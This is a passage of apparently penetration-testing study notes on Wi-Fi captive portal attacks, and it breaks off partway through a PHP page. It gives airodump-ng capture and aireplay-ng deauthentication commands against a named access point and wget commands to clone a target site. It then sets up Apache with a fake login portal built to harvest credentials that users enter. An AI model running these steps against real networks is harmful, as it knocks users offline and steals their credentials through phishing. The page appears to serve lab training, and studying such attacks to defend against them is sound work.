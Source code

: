
## 🧼 7. Captive Portal Attacks

### Step 1: Identify your target.

**<u>*NOT</u>E***: PHP scripts can save credentials that a user enters, and then we'll redirect the user to a success or failure page.

```bash
#Intercept a handshake from one of the clients

sudo airodump-ng -w discovery --output-format pcap wlan0mon

#Deauth as needed
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon

#use something as a base for your attack [wget and save locally]
wget -r -l2 [https://www.abc123!@%^.com]
```

#### Configure `hostapd` to Create the Fake AP

1. Install Apache which will be our web server.  
   
   1. `sudo apt install apache2 libapache2-mod-php`

2. Scrape the page of a site you wish to copy 
   
   1. `wget -r -l2 https://www.megacorpone.com`
      
      1. Move these into `/var/www/html/portal` since they contain the CSS and the background image

### Step 2: Set Up Apache to Host the Captive Portal

Let's create our captive portal login page, called index.php in /var/www/html/portal

##### Create a Fake Captive Portal Page:

1. ```bash
   nano /var/www/html/portal/index.php
   ```
   
   Example HTML:
   
   ```php
   <!DOCTYPE html>
   <html lang="en">
   
       <head>
           <link href="assets/css/style.css" rel="stylesheet">
           <title>MegaCorp One - Nanotechnology Is the Future</title>
       </head>
       <body style="background-color:#000000;">
           <div class="navbar navbar-default navbar-fixed-top" role="navigation">
               <div class="container">
                   <div class="navbar-header">
                       <a class="navbar-brand" style="font-family: 'Raleway', sans-serif;font-weight: 900;" href="index.php">MegaCorp One</a>
                   </div>
               </div>
           </div>
   
           <div id="headerwrap" class="old-bd">
               <div class="row centered">
                   <div class="col-lg-8 col-lg-offset-2">
                       <?php
                           if (isset($_GET["success"])) {
   ```